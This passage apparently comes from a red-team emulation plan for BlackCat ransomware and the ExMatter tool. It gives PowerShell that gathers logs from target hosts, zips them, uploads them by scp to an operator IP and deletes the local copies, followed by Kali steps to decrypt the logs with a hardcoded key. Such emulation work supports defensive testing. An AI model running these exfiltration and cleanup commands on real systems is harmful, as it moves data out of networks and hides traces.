             } else {
              cp "$logpath" "$destDir\enc_$targhost.log" -Force;
            }
        } else {
            Write-Host "[ERROR] Failed to find log files on $targhost";
        }
    }
    Compress-Archive -Path "$destDir" -DestinationPath "$zipPath" -Force;
    scp "$zipPath" op1@176.59.1.18:/tmp/xelogs.zip;
    Remove-Item -Recurse -Force "$destDir";
    Remove-Item -Force "$zipPath";
    ```
    * When prompted, enter the credentials to Kali for SCP
      
  * Sign out of your RDP session
  * :arrow_right: Switch back to your kali terminal and execute the following to unzip and decrypt the uploaded log files:
    ```
    cd
    dirname=exmatter_logs_$(date '+%Y-%m-%dT%H-%M-%S')
    mkdir $dirname
    cd $dirname
    mv /tmp/xelogs.zip ./
    unzip xelogs.zip
    cd xelogs
    for filename in enc_*.log; do
        basename=${filename#"enc_"}
        python3 alphv_blackcat/Resources/log_decryptor/aes_base64_log_decryptor.py -i $filename -o dec_$basename -k 0370dd5addcd980e8f4b424c92d8049e99c7c7c5d09eedfcc58f6abca9e72f99 --aes-256-cbc
    done
    ```
  * For each of the hosts that were missing zip uploads, check the corresponding decrypted log file to look for errors or signs of unsuccessful/incomplete execution:
    ```
    grep -i 'error\|fail' dec_*.log
    ```
    * For hosts that had failed uploads but no matches from the `grep` command, you may need to actually go through the log files to look for signs of failure.

### :mag: Reference Code & Reporting
1. https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-ransomware-ttps
1. https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/blackmatter-data-exfiltration
1. https://www.kroll.com/en/insights/publications/cyber/analyzing-exmatter-ransomware-data-exfiltration-tool
1. https://www.cyderes.com/blog/threat-advisory-exmatter-data-extortion/
1. https://www.netskope.com/blog/blackcat-ransomware-tactics-and-techniques-from-a-targeted-attack

<details><summary>:link: Click to expand source code links table</summary></details>

<br>

